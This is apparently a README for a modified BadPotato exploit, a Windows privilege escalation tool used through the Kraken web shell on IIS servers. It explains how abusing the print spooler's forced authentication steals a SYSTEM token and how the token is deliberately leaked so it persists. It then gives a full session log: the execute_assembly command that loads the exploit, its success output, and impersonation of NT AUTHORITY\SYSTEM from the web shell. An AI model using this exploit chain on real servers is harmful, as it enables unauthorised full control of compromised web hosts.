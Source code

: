 # BadPotato mod

BadPotato uses the Windows print service (**spoolss**) to exploit a [Forced Authentication][1]. This forced authentication occurs through the RPC call: [`RpcRemoteFindFirstPrinterChangeNotificationEx()`][2], which generates a notification object that monitors changes to a print object. This is used to force the print service to connect to a NamedPipe that we have created and steal the access token from it. As the user running the print service is the system account, we can use his token to elevate privileges.

This binary is a modified version of the original [BadPotato][3] code. This version performs privilege elevation just like BadPotato does, however, the code block relating to the creation and execution of the new process using the duplicate SYSTEM token has been removed. Instead, it forces a "leak" of the duplicate token by not calling the `CloseHandle()` that frees the reference.

By "leaking" the token, it can be used from the IIS Worker process itself (w3wp.exe), therefore, it is possible to use it via Kraken to impersonate the security context and privileges of the **NT AUTHORITY\SYSTEM** account.

In this way, it is possible to abuse the **SeImpersonate** privilege to achieve privilege escalation + persistence (because we can maintain the privilege level through the use of the Handle to Token).

## Examples

An example of elevation of privilege + impersonation using Kraken:

```
(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ sysinfo
Hostname: DESKTOP-8D0OEQR
IP: 172.20.10.9
OS: Microsoft Windows NT 10.0.19045.0 x64
User: IIS APPPOOL\DefaultAppPool
Path: C:/inetpub/wwwroot
Version: 4.0.30319.42000

(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ help execute_assembly
usage: execute_assembly -f F -n N -c C -m M [arguments [arguments ...]]

Load a NET Assembly into memory using Reflection

positional arguments:
  arguments  Arguments to pass to the assembly

optional arguments:
  -f F       Local Filepath of NET Assembly (remember to check the NET version of the assembly and the architecture)
  -n N       Namespace to call inside Assembly.
  -c C       Class to call inside Assembly.
  -m M       Method to call inside Assembly.

Examples:
  execute_assembly -f ~/Kraken/net_assemblies/bin/BadPotato-mod/BadPotato_net40_x64.exe -n BadPotato -c Program -m call
  execute_assembly -f ~/Kraken/net_assemblies/bin/Dummy/dummy_net40_x64.exe -n Dummy -c Program -m Main -- Ping
  execute_assembly -f ~/Kraken/net_assemblies/bin/Dummy/dummy_net20_x64.exe -n Dummy -c Program -m Main -- Ping -h --help

(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ list_tokens

  TOKEN  USERNAME                    NETWORK ACCESS  INTEGRITYLEVEL

  636    nt authority\iusr           True            HIGH
  664    iis apppool\defaultapppool  True            HIGH

(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ execute_assembly -f /home/secu/net_assemblies/bin/BadPotato-mod/BadPotato_net40_x64.exe -n BadPotato -c Program -m Main
[*] PipeName : \\.\pipe\986aba0ae0e14cdd906d46087e9cbc55\pipe\spoolss
[*] ConnectPipeName : \\DESKTOP-8D0OEQR/pipe/986aba0ae0e14cdd906d46087e9cbc55
[*] CreateNamedPipeW Success! IntPtr:2496
[*] RpcRemoteFindFirstPrinterChangeNotificationEx Success! IntPtr:2817957639424
[*] ConnectNamePipe Success!
[*] CurrentUserName : DefaultAppPool
[*] CurrentConnectPipeUserName : SYSTEM
[*] ImpersonateNamedPipeClient Success!
[*] OpenThreadToken Success! IntPtr:2232
[*] DuplicateTokenEx Success! IntPtr:2248
[*] Token: 2248


(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ list_tokens

  TOKEN  USERNAME                    NETWORK ACCESS  INTEGRITYLEVEL

  636    nt authority\iusr           True            HIGH
  664    iis apppool\defaultapppool  True            HIGH
  2248   nt authority\system         False           SYSTEM

(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ set_token 2248
Impersonated user: 'NT AUTHORITY\SYSTEM' with token: '2248'

(ST) NT AUTHORITY\SYSTEM@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ id
user=S-1-5-18(NT AUTHORITY\SYSTEM) groups=S-1-5-32-544(BUILTIN\Administradores),S-1-1-0(Todos),S-1-5-11(NT AUTHORITY\Usuarios autentificados)

(ST) NT AUTHORITY\SYSTEM@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ rev2self
[*] Token 2248 has been dereferenced (this does not mean that the token has been released)

(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ id
user=S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415(IIS APPPOOL\DefaultAppPool) groups=S-1-1-0(Todos),S-1-5-32-545(BUILTIN\Usuarios),S-1-5-6(NT AUTHORITY\SERVICIO),S-1-2-1(INICIO DE SESIN EN LA CONSOLA),S-1-5-11(NT AUTHORITY\Usuarios autentificados),S-1-5-15(NT AUTHORITY\Esta compaa),S-1-5-32-568(BUILTIN\IIS_IUSRS),S-1-2-0(LOCAL)

(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ exit
```


[1]: https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication "Forced Authentication Examples"
[2]: https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d "MSDN Endpoint Spec"
[3]: https://github.com/BeichenDream/BadPotato "BadPotato Repository"
